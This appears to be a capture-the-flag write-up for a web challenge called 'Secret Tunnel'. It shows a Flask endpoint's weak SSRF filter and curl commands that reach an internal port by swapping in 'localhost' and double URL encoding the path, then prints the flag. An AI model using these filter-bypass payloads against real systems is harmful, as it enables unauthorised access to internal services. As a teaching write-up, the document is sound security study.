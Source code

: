 <h1> Secret Tunnel </h1>


<p> This server has two web servers, one on port 80 with which we can retrieve the first 32 characters of a web page and the other on port 1337 which displays the flag but which is only accessible locally.</p>

```bash
$ curl -X POST -d "url=https://nbctf.com/" https://secret-tunnel.chal.nbctf.com/fetchdata                                   
<!DOCTYPE html><html lang="en"><
```

```bash
$ curl -X POST -d "url=http://127.0.0.1:1337/flag" https://secret-tunnel.chal.nbctf.com/fetchdata
No loopback for you!
```

<p> We can see that the /fetchdata is vulnerable because we can bypass the basic filters to get the flag from the local web server on the 1337 port. </p>

```python
def fetchdata():
    url = request.form["url"]

    if "127" in url:
        return Response("No loopback for you!", mimetype="text/plain")
    if url.count('.') > 2:
        return Response("Only 2 dots allowed!", mimetype="text/plain")
    if "x" in url:
        return Response("I don't like twitter >:(" , mimetype="text/plain")
    if "flag" in url:
        return Response("It's not gonna be that easy :)", mimetype="text/plain")
```

<p> To bypass the filters we can replace 127.0.0.1 by localhost, and double URL encode "flag". And it's given the flag ! </p>

```bash
$ curl -X POST -d "url=http://localhost:1337/%2566%256c%2561%2567" https://secret-tunnel.chal.nbctf.com/fetchdata
nbctf{s3cr3t_7uNN3lllllllllll!}
```
